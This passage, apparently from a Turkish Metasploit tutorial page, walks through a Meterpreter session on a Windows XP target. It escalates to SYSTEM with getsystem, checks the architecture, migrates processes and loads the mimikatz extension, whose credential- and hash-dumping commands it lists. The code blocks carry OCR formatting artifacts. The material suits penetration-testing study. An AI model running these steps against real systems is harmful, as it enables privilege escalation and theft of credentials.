 
```bash
meterpreter **&gt;** getsystem
...got system **(**via technique 1**)**.

meterpreter **&gt;** getuid
Server username: NT AUTHORITY\SYSTEM
```



Başarılı olduysanız yukarıdaki gibi SYSTEM seviyesine geçtiğinize dair çıktı alırsınız.



Mimikatz, 32-bit ve 64-bit mimarilerde çalışmak üzere tasarlanmıştır. SYSTEM seviyesine geçtikten sonra hedef sistemin mimarisinin ne olduğuna `sysinfo` komutuyla bakmalıyız. Bazen, Meterpreter oturum 64-bit mimaride çalışan bir 32-bit mimari prosesinde oturum açmış olabilir. Bu durumda mimikatz’ın bazı özellikleri çalışmayacaktır. Meterpreter oturumu 32-bit bir proseste çalışıyorsa (Mimari aslında 64-bit olmasına rağmen), mimikatz, 32-bit için yazılımları kullanmaya çalışacaktır. Bunun önüne geçmenin yolu `ps` komutuyla çalışan proseslere bakmak ve `migrate` komutuyla başka bir prosese geçmektir.


```bash
meterpreter **&gt;** sysinfo
Computer        : WINXP-E95CE571A1
OS              : Windows XP **(**Build 2600, Service Pack 3**)**.
Architecture    : x86
System Language : en_US
Meterpreter     : x86/win32
```



Burada görülen çıktıda, hedef makinenin zaten 32-bit mimaride olduğunu görüyoruz. O zaman, 32-bit, 64-bit çakışması bulunmamaktadır. Artık `mimikatz` modülünü yükleyebiliriz.


```bash
meterpreter **&gt;** load mimikatz
Loading extension mimikatz...success.
```



Yükleme başarıyla tamamlandıktan sonra öncelikle yardım bilgisini görüntüleyelim.


```bash
meterpreter **&gt;** help mimikatz

Mimikatz Commands
**=================**

    Command           Description
    -------           -----------
    kerberos          Attempt to retrieve kerberos creds
    livessp           Attempt to retrieve livessp creds
    mimikatz_command  Run a custom commannd
    msv               Attempt to retrieve msv creds **(**hashes**)**
    ssp               Attempt to retrieve ssp creds
    tspkg             Attempt to retrieve tspkg creds
    wdigest           Attempt to retrieve wdigest creds
```

